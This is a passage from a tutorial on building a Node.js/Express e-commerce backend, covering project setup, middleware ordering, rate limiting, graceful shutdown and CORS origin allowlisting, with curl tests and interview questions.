








# Build a Production-Style E-Commerce Backend (Node.js + Express + MongoDB + Redis)

> Auth, OAuth, Razorpay payments, real-time order updates, and the security habits that keep you out of incident reports.

Hey, welcome. I've been building backends for years. I've shipped bugs to production and sat in the postmortems. I've also interviewed a lot of people who "know JWT" but can't tell me what happens when a refresh token leaks.

In this guide we build **one real project** from an empty folder. Every concept (CORS, bcrypt, JWT, refresh rotation, Redis blacklisting, OAuth2, Razorpay webhooks, Socket.io) gets introduced *when the project needs it*, never as an abstract lecture.

Each chapter has the same shape:

1. **Why this exists**: the problem, in plain words
2. **Mental model**: an analogy or diagram
3. **Code**: file by file, with comments explaining *why*
4. **Pro tip / War story**: something that actually bites in production
5. **Common mistakes**
6. **Test it**: exact `curl` commands
7. **Interview corner**: questions you will be asked

---

## Table of contents

0. [Intro: what we build](#0-intro-what-we-build)
1. [Prerequisites and setup](#1-prerequisites-and-setup)
2. [Ch 1: Express setup](#chapter-1-express-setup)
3. [Ch 2: CORS](#chapter-2-cors)
4. [Ch 3: Config with .env and zod](#chapter-3-config-with-env-and-zod)
5. [Ch 4: MongoDB and schemas](#chapter-4-mongodb-connection-and-schemas)
6. [Ch 5: Passwords, register, login, reset](#chapter-5-password-hashing-register-login-reset)
7. [Ch 6: JWT and cookie auth](#chapter-6-jwt-and-cookie-based-auth)
8. [Ch 7: Dual-token auth (access + refresh)](#chapter-7-dual-token-auth)
9. [Ch 8: Auth middleware](#chapter-8-auth-middleware)
10. [Ch 9: Protected routes, RBAC, IDOR](#chapter-9-protected-routes-rbac-and-idor)
11. [Ch 10: Logout and Redis blacklist](#chapter-10-logout-and-token-blacklisting-with-redis)
12. [Ch 11: Global error handler](#chapter-11-global-error-handler)
13. [Ch 12: Passport and OAuth2](#chapter-12-passportjs-and-oauth2)
14. [Ch 13: Razorpay](#chapter-13-razorpay-payments)
15. [Ch 14: Socket.io](#chapter-14-socketio-real-time-updates)
16. [Ch 15: Security checklist, tests, deployment](#chapter-15-security-checklist-full-flow-tests-deployment)
17. [Appendix](#appendix)

---

# 0. Intro: what we build

An e-commerce backend with:

| Area | Features |
|---|---|
| Auth | register, login, refresh, logout, logout-all, forgot/reset password, OAuth (Google, GitHub, Discord) |
| Users | `/me` profile |
| Products | public read, admin CRUD |
| Cart | per-user cart |
| Checkout | cart → order → Razorpay order → verify → webhook → order **paid** |
| Orders | owner-only history, admin management, refunds |
| Real-time | live order and payment status over Socket.io |

## Architecture



**Layering rule (we never break this):**

```
routes  ->  controllers  ->  services  ->  models
(URLs)      (HTTP in/out)    (business     (DB shape)
                              logic)
```

- **Routes** map URL + middleware to a controller.
- **Controllers** read the request and send the response. They have no business logic.
- **Services** hold the real logic, and they never touch `req`/`res`.
- **Models** define data shape and DB-level rules.

Why bother? You can test services without HTTP. You can reuse them from Socket.io, cron jobs and webhooks. And when a junior asks "where does the discount logic live?", the answer is one folder.

## Final folder structure

```
ecommerce-backend/
├── .env                      (never committed)
├── .env.example
├── .env.test
├── .gitignore
├── docker-compose.yml
├── package.json
├── scripts/
│   └── socket-client.js
├── src/
│   ├── app.js
│   ├── server.js
│   ├── config/
│   │   ├── env.js
│   │   ├── cors.js
│   │   ├── db.js
│   │   ├── redis.js
│   │   ├── passport.js
│   │   └── razorpay.js
│   ├── utils/
│   │   ├── AppError.js
│   │   ├── asyncHandler.js
│   │   ├── logger.js
│   │   └── cookies.js
│   ├── middleware/
│   │   ├── rateLimit.js
│   │   ├── csrfGuard.js
│   │   ├── validate.js
│   │   ├── auth.js            (authenticate, optionalAuth, authorize)
│   │   └── errorHandler.js
│   ├── models/
│   │   ├── User.js
│   │   ├── RefreshToken.js
│   │   ├── Product.js
│   │   ├── Cart.js
│   │   ├── Order.js
│   │   └── Payment.js
│   ├── validators/
│   │   ├── common.js
│   │   ├── auth.validators.js
│   │   ├── user.validators.js
│   │   ├── product.validators.js
│   │   ├── cart.validators.js
│   │   └── order.validators.js
│   ├── services/
│   │   ├── token.service.js
│   │   ├── auth.service.js
│   │   ├── oauth.service.js
│   │   ├── user.service.js
│   │   ├── product.service.js
│   │   ├── cart.service.js
│   │   ├── order.service.js
│   │   ├── payment.service.js
│   │   └── socket.service.js
│   ├── controllers/
│   │   ├── auth.controller.js
│   │   ├── user.controller.js
│   │   ├── product.controller.js
│   │   ├── cart.controller.js
│   │   ├── order.controller.js
│   │   ├── payment.controller.js
│   │   └── admin.controller.js
│   ├── routes/
│   │   ├── index.js
│   │   ├── auth.routes.js
│   │   ├── user.routes.js
│   │   ├── product.routes.js
│   │   ├── cart.routes.js
│   │   ├── order.routes.js
│   │   ├── payment.routes.js
│   │   ├── webhook.routes.js
│   │   └── admin.routes.js
│   └── sockets/
│       └── index.js
└── tests/
    ├── helpers.js
    └── flow.test.js
```

Don't create everything now. Each chapter tells you exactly which files to create or modify.

---

# 1. Prerequisites and setup

You need:

- **Node.js 22 LTS** (check with `node -v`). We use ES modules (`"type": "module"`).
- **Docker** (easiest way to run MongoDB and Redis locally).
- **curl** (or Postman).
- A free **Razorpay** account in **test mode** (Chapter 13).
- OAuth apps for Google, GitHub and Discord (Chapter 12, optional, since the app boots without them).

### Versions we pin

| Package | Version | Why it matters |
|---|---|---|
| express | **4.21.x** | Express 5 is stable now and handles async errors natively. We stay on 4 because most production codebases still run it, and we teach `asyncHandler` explicitly. Everything here also works on 5 (I call out the two spots that differ). |
| mongoose | 8.x | Async hooks don't take `next`. |
| ioredis | 5.x | |
| passport | **0.7.x** | 0.6+ changed `req.logout` and session behavior. We don't use sessions anyway. |
| passport-google-oauth20 / passport-github2 / passport-discord | 2.x / 0.1.x / 0.1.x | |
| jsonwebtoken | 9.x | Refuses weak keys and `alg: none` by default. |
| zod | 3.x | |
| razorpay | 2.9.x | |
| socket.io | 4.8.x | |

### Create the project

```bash
mkdir ecommerce-backend && cd ecommerce-backend
git init
```

### `docker-compose.yml`

```yaml
services:
  mongo:
    image: mongo:7
    ports: ["27017:27017"]
    volumes: ["mongo-data:/data/db"]
  redis:
    image: redis:7-alpine
    ports: ["6379:6379"]
volumes:
  mongo-data:
```

```bash
docker compose up -d
```

### `package.json`

We install every dependency now, so you never have to stop mid-chapter.

```json
{
  "name": "ecommerce-backend",
  "version": "1.0.0",
  "private": true,
  "type": "module",
  "engines": { "node": ">=22" },
  "scripts": {
    "dev": "nodemon src/server.js",
    "start": "node src/server.js",
    "test": "node --env-file=.env.test --test --test-concurrency=1 \"tests/**/*.test.js\""
  },
  "dependencies": {
    "@socket.io/redis-adapter": "^8.3.0",
    "bcrypt": "^5.1.1",
    "cookie": "^0.7.2",
    "cookie-parser": "^1.4.7",
    "cors": "^2.8.5",
    "dotenv": "^16.4.7",
    "express": "~4.21.2",
    "express-rate-limit": "^7.5.0",
    "helmet": "^8.0.0",
    "ioredis": "^5.4.2",
    "jsonwebtoken": "^9.0.2",
    "mongoose": "^8.9.5",
    "morgan": "^1.10.0",
    "passport": "^0.7.0",
    "passport-discord": "^0.1.4",
    "passport-github2": "^0.1.12",
    "passport-google-oauth20": "^2.0.0",
    "razorpay": "^2.9.5",
    "socket.io": "^4.8.1",
    "zod": "^3.24.1"
  },
  "devDependencies": {
    "nodemon": "^3.1.9",
    "socket.io-client": "^4.8.1",
    "supertest": "^7.0.0"
  }
}
```

```bash
npm install
mkdir -p src/{config,utils,middleware,models,validators,services,controllers,routes,sockets} tests scripts
```

### `.gitignore`

```
node_modules
.env
.env.test
*.log
cookies.txt
```

> **War story:** A teammate once committed `.env` "just for the demo branch". Within hours, a bot had scraped the AWS keys from the public repo and spun up crypto miners. Deleting the file in the next commit does *nothing*, because the secret lives in git history. Rotate the keys, then clean up. Add `.gitignore` **before** your first commit.

---

# Chapter 1: Express setup

## Why this exists

A backend is just a program that listens on a port and answers HTTP requests. Express gives us a tidy way to describe "when *this* request arrives, run *these* functions in order".

The big beginner mistake is putting everything in one `index.js`: creating the app, wiring routes, **and** calling `listen()`. You then can't test the app without actually opening a port. So we split it:

- `app.js` **builds** the Express app (pure, no side effects).
- `server.js` **runs** it (port, DB connections, shutdown).

## Mental model

Middleware is an **airport security line**. Every request passes through the same checkpoints in order: helmet (bag check), rate limit (queue control), body parser (unpack the luggage), routes (your gate). **Order is behavior.** Put the body parser after your routes and your `req.body` is `undefined`.



## Code

### `src/middleware/rateLimit.js`

```js
import rateLimit from 'express-rate-limit';

// Rate limiting = "how many requests can one client make in a time window?"
// Without it, anyone can brute-force logins or hammer your DB.
const make = (windowMs, limit) =>
  rateLimit({
    windowMs,
    limit,
    standardHeaders: 'draft-7', // sends RateLimit-* headers so clients can back off
    legacyHeaders: false,
    // Tests fire hundreds of requests from one IP; don't rate-limit them.
    skip: () => process.env.NODE_ENV === 'test',
    // Same response shape as every other error in our API.
    message: { status: 'fail', code: 'RATE_LIMITED', message: 'Too many requests, please slow down' },
  });

// Generous limit for the whole API.
export const globalLimiter = make(15 * 60 * 1000, 300);

// Strict limit for credential endpoints (login, register, forgot/reset password).
export const authLimiter = make(15 * 60 * 1000, 10);
```

### `src/routes/index.js`

```js
import { Router } from 'express';

const router = Router();

// Liveness probe: load balancers and Kubernetes call this.
router.get('/health', (req, res) => {
  res.json({ status: 'success', data: { uptime: process.uptime() } });
});

export default router;
```

### `src/app.js`

```js
import express from 'express';
import helmet from 'helmet';
import morgan from 'morgan';
import { globalLimiter } from './middleware/rateLimit.js';
import routes from './routes/index.js';

export function createApp() {
  const app = express();

  // Behind a proxy (nginx, Render, Heroku), req.ip is the PROXY's IP unless we
  // tell Express how many proxy hops to trust. Wrong value = rate limiter
  // sees everyone as one user (or lets attackers spoof IPs via X-Forwarded-For).
  app.set('trust proxy', Number(process.env.TRUST_PROXY ?? 0));

  // 1. Security headers first so even error responses get them.
  app.use(helmet());

  // 2. Request logging. 'dev' is colorful, 'combined' is Apache-style for prod.
  app.use(morgan(process.env.NODE_ENV === 'production' ? 'combined' : 'dev'));

  // 3. Rate limit BEFORE doing expensive work like parsing bodies or hitting the DB.
  app.use(globalLimiter);

  // 4. Body parser with a small limit. Default is 100kb; an API rarely needs more than 10kb
  //    of JSON, and big bodies are a cheap DoS vector.
  app.use(express.json({ limit: '10kb' }));

  // 5. Routes
  app.use('/api/v1', routes);

  // 6. Anything unmatched -> 404. (Replaced by a proper handler in Chapter 11.)
  app.use((req, res) => res.status(404).json({ status: 'fail', message: 'Not found' }));

  // 7. Error handler must be LAST and must have 4 arguments; that's how Express recognizes it.
  // eslint-disable-next-line no-unused-vars
  app.use((err, req, res, next) => {
    console.error(err);
    res.status(500).json({ status: 'error', message: 'Something went wrong' });
  });

  return app;
}
```

### `src/server.js`

```js
import 'dotenv/config'; // MUST be first: loads .env into process.env
import http from 'node:http';
import { createApp } from './app.js';

const port = process.env.PORT ?? 5000;
const app = createApp();

// We create the HTTP server ourselves (instead of app.listen) because
// Socket.io in Chapter 14 needs to attach to the SAME server.
const server = http.createServer(app);

server.listen(port, () => console.log(`API listening on :${port}`));

// ---- Graceful shutdown ----
// When you deploy, the platform sends SIGTERM. If you just die, in-flight
// requests (maybe a payment!) get cut off. Instead: stop accepting new
// connections, let current ones finish, then exit.
function shutdown(signal) {
  console.log(`${signal} received, shutting down...`);
  server.close((err) => process.exit(err ? 1 : 0));
  // Safety net: if something hangs (keep-alive connections), force exit.
  setTimeout(() => process.exit(1), 10_000).unref();
}
process.on('SIGTERM', () => shutdown('SIGTERM'));
process.on('SIGINT', () => shutdown('SIGINT'));
```

## Pro tip / War story

> We once ran a rate limiter behind nginx *without* `trust proxy`. Every request appeared to come from `10.0.0.5` (nginx). One noisy user hit the limit, and **the entire site returned 429 for everyone**. Lesson: `trust proxy` must match your real number of hops. Never set it to `true` blindly, because then clients can forge `X-Forwarded-For` and dodge the limiter.

## Common mistakes

- `app.listen()` inside `app.js`, which makes the app untestable.
- Body parser registered after routes.
- Error handler with 3 args (Express ignores it).
- No graceful shutdown, so deploys cause random 502s.
- Forgetting `import 'dotenv/config'` is the *first* import.

## Test it

```bash
npm run dev
curl -i http://localhost:5000/api/v1/health
```

Expected:

```
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Strict-Transport-Security: max-age=31536000; includeSubDomains   <- helmet at work
X-Content-Type-Options: nosniff
RateLimit-Policy: 300;w=900

{"status":"success","data":{"uptime":3.21}}
```

```bash
curl -i http://localhost:5000/api/v1/nope         # 404 JSON
```

Press Ctrl+C and watch the log say `SIGINT received, shutting down...`.

## Interview corner

**1. Why split `app.js` and `server.js`?**
Testability. Supertest can import `createApp()` and make requests without binding a port. The split also keeps side effects (listening, DB connections, signal handlers) in one place.

**2. Does middleware order matter?**
Yes. Express runs middleware in registration order. Security and parsing go first, routes next, 404 then the error handler last. A route registered before `express.json()` sees an empty `req.body`.

**3. How does Express know a function is an error handler?**
It has exactly four parameters `(err, req, res, next)`. Express checks `fn.length`.

**4. What is graceful shutdown and why does it matter?**
On SIGTERM, stop accepting new connections, finish in-flight requests, close DB connections, then exit. Without it, deploys drop requests, which can mean half-finished payments.

**5. What does `trust proxy` do?**
It tells Express to trust `X-Forwarded-*` headers from N proxy hops. This affects `req.ip`, `req.protocol` (needed for `secure` cookies) and rate limiting.

---

# Chapter 2: CORS

## Why this exists

Your React app runs at `http://localhost:3000`, your API at `http://localhost:5000`. The browser says: *"Different origin. I'll block your JavaScript from reading that response unless the server says it's okay."* That's CORS (Cross-Origin Resource Sharing), and it is the single most-asked-about, most-misunderstood browser feature.

First, the **Same-Origin Policy (SOP)**. An **origin** = `scheme + host + port`. All three must match.

| URL A | URL B | Same origin? |
|---|---|---|
| `http://localhost:3000` | `http://localhost:5000` | ❌ port differs |
| `https://shop.com` | `http://shop.com` | ❌ scheme differs |
| `https://shop.com` | `https://api.shop.com` | ❌ host differs (but **same site**, see below) |
| `https://shop.com/a` | `https://shop.com/b` | ✅ |

SOP exists so a random website you visit can't read your bank's responses using your logged-in cookies. CORS is the server's **opt-in** way to relax that.

**Key fact people miss:** CORS is enforced by the *browser*. curl and Postman ignore it. And the request often **still reaches your server**; the browser just hides the response from the JS.

## Mental model

The browser is a bouncer with a guest list. Before letting a "strange" request in, it **phones the server**: *"Hey, `https://shop.com` wants to send a DELETE with a JSON body. Allowed?"* That phone call is the **preflight** (`OPTIONS` request).



**Simple vs preflighted:** `GET`/`HEAD`/`POST` with only basic headers and content types like `text/plain` or form-encoded are "simple" and skip the preflight. `Content-Type: application/json`, `Authorization`, or `PUT/PATCH/DELETE` trigger one. `Access-Control-Max-Age` lets the browser cache the preflight result.

## The credentials rules (most common CORS bug)

To send cookies cross-origin:

1. Client: `fetch(url, { credentials: 'include' })` (axios: `withCredentials: true`)
2. Server: `Access-Control-Allow-Credentials: true`
3. Server: `Access-Control-Allow-Origin` must be an **exact origin**, never `*`. The browser rejects `*` with credentials.

That's why we use a **dynamic allowlist**: look at the incoming `Origin`, and if it's on our list, echo it back.

### SameSite interplay

CORS and cookies are *two separate gates*:

- **CORS** decides whether JS may read the response.
- **SameSite** decides whether the browser attaches the cookie.

**Site** = registrable domain (`shop.com`), *ignoring* subdomain and port. So `shop.com` → `api.shop.com` is cross-origin but **same-site**, and `SameSite=Lax` cookies flow happily. `localhost:3000` → `localhost:5000` is same-site too. But `shop.com` → `api.herokuapp.com` is cross-site, so you need `SameSite=None; Secure`. We cover this in Chapter 6.

## Code

For now we read `process.env` directly. Chapter 3 swaps this for validated config.

### `.env` (temporary)

```
PORT=5000
CLIENT_ORIGINS=http://localhost:3000,http://localhost:5173
```

### `src/config/cors.js`

```js
// The allowlist comes from env so staging/prod differ without code changes.
const allowlist = () =>
  (process.env.CLIENT_ORIGINS ?? '').split(',').map((o) => o.trim()).filter(Boolean);

export const corsOptions = {
  origin(origin, callback) {
    // No Origin header = not a browser (curl, server-to-server, Razorpay webhooks).
    // CORS only protects browsers, so letting these through is fine. Auth protects the rest.
    if (!origin) return callback(null, true);

    // Exact match only. NEVER do origin.includes('shop.com'), because
    // 'shop.com.evil.io' would pass. NEVER reflect any origin blindly with credentials.
    if (allowlist().includes(origin)) return callback(null, true);

    // callback(null, false) = don't add CORS headers. The browser will block it.
    return callback(null, false);
  },
  credentials: true, // emits Access-Control-Allow-Credentials: true
  methods: ['GET', 'POST', 'PUT', 'PATCH', 'DELETE', 'OPTIONS'],
  allowedHeaders: ['Content-Type', 'Authorization'],
  maxAge: 600, // cache preflight 10 min, fewer OPTIONS round trips
};
```

### Modify `src/app.js`

Add the import and register CORS **right after helmet** (it must run before routes and rate limiting so preflights get answered properly, and the `cors` package auto-responds to `OPTIONS`):

```js
import cors from 'cors';
import { corsOptions } from './config/cors.js';
// ...
  app.use(helmet());
  app.use(cors(corsOptions));   // <-- NEW
  app.use(morgan(process.env.NODE_ENV === 'production' ? 'combined' : 'dev'));
```

## Pro tip / War story

> A teammate "fixed" a CORS error with `origin: true, credentials: true`, which reflects *any* origin. That means `evil.com` can make logged-in requests to our API **and read the responses**. It's equivalent to turning off the same-origin policy for authenticated users. Always use an explicit allowlist.
>
> Another classic: the dev says "CORS is broken", but the real issue is the server **crashed with a 500** before CORS headers were added. The browser reports a CORS error because the error response lacks the headers. Check the Network tab / server logs first.

## Common mistakes

- `Access-Control-Allow-Origin: *` together with credentials.
- Registering `cors()` *after* routes or after auth middleware, so preflights get 401 (OPTIONS carries no cookies!).
- Thinking CORS protects the API. It doesn't; it only protects *users' browsers*. Real protection is authentication and authorization.
- Forgetting `credentials: 'include'` on the client.

## Test it

Simulate a preflight:

```bash
curl -i -X OPTIONS http://localhost:5000/api/v1/health \
  -H "Origin: http://localhost:3000" \
  -H "Access-Control-Request-Method: POST" \
  -H "Access-Control-Request-Headers: content-type"
```

Expected (allowed origin):

```
HTTP/1.1 204 No Content
Access-Control-Allow-Origin: http://localhost:3000
Access-Control-Allow-Credentials: true
Access-Control-Allow-Methods: GET,POST,PUT,PATCH,DELETE,OPTIONS
Access-Control-Allow-Headers: Content-Type,Authorization
Access-Control-Max-Age: 600
```

Now with `-H "Origin: http://evil.com"`: the response has **no** `Access-Control-Allow-Origin` header. The browser would block it.

## Interview corner

**1. What is CORS and who enforces it?**
It's a browser mechanism that relaxes the Same-Origin Policy via response headers. The browser enforces it; servers just send headers. curl ignores it.

**2. What's a preflight and when does it happen?**
An automatic `OPTIONS` request the browser sends before "non-simple" requests (custom headers, JSON content-type, PUT/PATCH/DELETE) to ask permission. `Access-Control-Max-Age` caches the answer.

**3. Why can't you use `*` with credentials?**
If any origin could read credentialed responses, SOP would be pointless. Browsers force an exact origin, so servers need an allowlist.

